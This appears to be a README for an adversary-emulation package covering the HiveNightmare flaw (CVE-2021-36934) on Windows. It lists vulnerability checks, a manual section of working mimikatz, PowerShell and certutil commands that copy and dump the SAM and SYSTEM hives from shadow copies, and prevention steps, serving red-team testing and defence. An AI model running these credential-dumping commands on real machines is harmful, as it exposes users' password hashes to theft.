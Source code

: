 # T1003.002 - OS Credential Dumping: Security Account Manager

This SCYTHE Compound Action checks the Windows system for CVE-2021-36934, an elevation of privilege vulnerability that allows any user to read and copy the Security Accounts Manager (SAM) database, and copies the SAM and SYSTEM hive for offline and online (using mimikatz) credential dumping.  For more about OS Credential Dumping: https://attack.mitre.org/techniques/T1003/002/

## Check if system is vulnerable
As a non-administrative user, run the following in a command prompt
- ```whoami /groups```
- ```sc query vss```
- ```vssadmin list shadows```
- ```icacls %windir%\system32\config\sam```

A vulnerable system will report ```BUILTIN\Users:(I)(RX)```

## Import the Compound Action into SCYTHE
1. From the SCYTHE GUI, click Threat Manager - Migrate Threats
2. Under "Import Threat" click “Choose File” and select the JSON file you downloaded from GitHub
3. Click Import and OK when complete
4. Click Threat Manager - Threat Catalog
5. Find the imported Compound Action and click the tag icon 
6. Tag the MITRE ATT&CK Technique for the Compound Action

## Attack Emulation with SCYTHE
1. Create a new campaign
2. Select the Compound Action for T1003.002
3. Note: you may need to change the HarddiskVolumeShadowCopy# to the backup available on the disk. You can identify that by using the ```vssadmin list shadows``` command.

## Manual Attack Emulation
- ```mimikatz "lsadump::sam /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\system /sam:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\\sam"```
- ```powershell foreach($i in @("SYSTEM","SAM")){[System.IO.File]::Copy("\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\$i", "$i")}```
- ```certutil -encode \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\SYSTEM SYSTEM.encoded```
- ```certutil -decode SYSTEM.encoded SYSTEM.hive```
- ```certutil -encode \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\system32\config\SAM SAM.encoded```
- ```certutil -decode SAM.encoded SAM.hive```

## Prevention
Restrict access to %windir%\system32\config and remove VSS shadow copies. On a command prompt with administrative privileges:
- ```icacls %windir%\system32\config\*.* /inheritance:e```
- ```vssadmin delete shadows /for=c: /Quiet```
- ```vssadmin list shadows```
- Note: you must restrict access and delete shadow copies to prevent exploitation of this vulnerability

## References
- https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36934
- https://twitter.com/jonasLyk/status/1417205166172950531
- https://attack.mitre.org/techniques/T1003/002/
- https://www.kb.cert.org/vuls/id/506989
- https://doublepulsar.com/hivenightmare-aka-serioussam-anybody-can-read-the-registry-in-windows-10-7a871c465fa5
- https://github.com/GossiTheDog/HiveNightmare